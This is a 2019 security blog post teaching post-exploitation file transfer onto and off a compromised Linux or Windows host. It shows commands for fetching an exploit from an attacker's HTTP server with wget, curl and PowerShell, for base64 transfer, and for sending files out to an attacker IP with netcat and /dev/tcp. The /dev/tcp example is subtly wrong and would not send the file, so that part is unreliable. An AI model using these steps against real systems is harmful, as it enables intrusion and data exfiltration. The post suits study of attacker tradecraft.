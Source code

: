 ```yaml
---
layout: post
title: Post Exploitation - File Transfer
subtitle: File Transfer
gh-repo: Sq00ky/Sq00ky.github.io
gh-badge:
  - star
  - fork
  - follow
tags:
  - Exploitation
  - Post
  - Hacking
  - Maintaining Access
  - Systems
comments: true
published: true
date: '2019-06-10'
---
```


You're sat in a dark room, only the light from your terminal illuminates behind you. You've just found a command injection vulnerability on a fortune 500 companies website. You're looking at a minimum $5,000 bug bounty, if you can successfully elevate privileges to root, you've just paid off your new car; You just dropped into your shell, confirmed that you're www-data, what next?
You run a uname -a to check the kernel version, and you see that the kernel is vulnerable to one of the most infamous exploits ever, CVE-2016-5195 - Dirty Cow. Without proper terminal access via SSH how can you transfer the file over?

## Post Exploitation - File Transfer

Linux offers a wide variety way of transfering files, some are more complex than other. Most methods here should be able to make use of pre-existing tools in most popular Linux distros.

# HTTP File Transfer

The simplest way of transfering files by far is hosting them on a web server. Fortunately, there is a really handy module that allows you to spawn a HTTP server on demand.
```
root@Sp00ky:~#python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
``` 

After hosting the file on your HTTP server (Ensure that HTTP is being forwarded on your network), you should be able to use wget or curl.
```
www-data@victim:~$ wget http://127.0.0.1/exploit.py
--2019-06-10 08:41:11--  http://127.0.0.1/exploit.py
Connecting to 127.0.0.1:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 34 [text/plain]
Saving to: ‘exploit.py.1’

exploit.py.1                  100%[=================================================>]      34  --.-KB/s    in 0s

2019-06-10 08:41:11 (1.57 MB/s) - ‘exploit.py’ saved [34/34]

www-data@victim:~$ls
exploit.py
```
Or with Curl, another command line utility for sending web request via CLI
```
www-data@victim:~$ curl -o exploit2.py http://127.0.0.1/exploit.py
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    34  100    34    0     0     23      0  0:00:01  0:00:01 --:--:--    23
www-data@victim:~$ls
exploit2.py
```
and for fun, Invoke-WebRequest with Powershell!
```
PS C:\Users\Victim> Invoke-WebRequest -Uri http://127.0.0.1/exploit.py -OutFile C:\Users\Victim\exploit.py
PS C:\Users\Victim> ls

    Directory: C:\Users\Victim

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
                    <output ommited>
-a----        6/10/2019   8:46 AM             34 exploit.py
```
As you can see, HTTP Servers are a very powerful way of transfering files to both Windows and Linux boxes, but what if HTTP was blocked?
Excellent question reader, Thankfully Base64 is another viable method!

# Base64 Method

This method works for both transfering files to the attacker and victim. On the attacking machine you'll want to print the output of the file, then pipe said output to base64, encoding the contents of a file.

```
root@Sp00ky:~# cat exploit.py |base64
dGhpcyBpcyBhIHRlc3QgZmlsZQppZ25vcmUgbWUgcGxzCg==
```

On the victim you can echo the contents of the file and pipe the output to base64 decode, then redirect the output from your terminal to a file.

```
www-data@victim:~$echo "dGhpcyBpcyBhIHRlc3QgZmlsZQppZ25vcmUgbWUgcGxzCg==" | base64 -d >> exploit.py
```

I personally recommended to keep it as a one-liner due to formatting formatting issues that may arrise.
# Netcat File Transfer and /dev/tcp

File transfer with netcat is fairly simple, to start you want to setup a listener on your attacking box
```
root@Sp00ky:~# nc -lp 1337 -i 5 > file.txt
```
The above statement is listening on port 1337, and after 5 seconds of inactivity, closing the session. This is how we will know the file transfer is complete. From the victim, we can do this with 2 ways, one being Netcat, the other being with /dev/tcp.
```
www-data@victim:~# nc 192.168.1.111 1337 < file.txt
```
The above statement is initiating a netcat session with the attacker, and is using bashes standard input to read the file and redirect it to netcat.
But lets say you're in an instance where netcat isn't avalible to you, thankfully bash has /dev/tcp/<ip>/<port> which will open a TCP socket.
```
www-data@victim:~# cat jellyfin_team.gpg.key < /dev/tcp/192.168.1.111/1337
```
and back on the attacking machine we can now read the file!
```
root@Sp00ky:~# cat ./file.txt
-----BEGIN PGP PUBLIC KEY BLOCK-----
<output omitted>
-----END PGP PUBLIC KEY BLOCK-----  
```
# The End
Thank you all for reading, that's all I have at the moment for file transfer methods, but I will be sure to add some more soon!
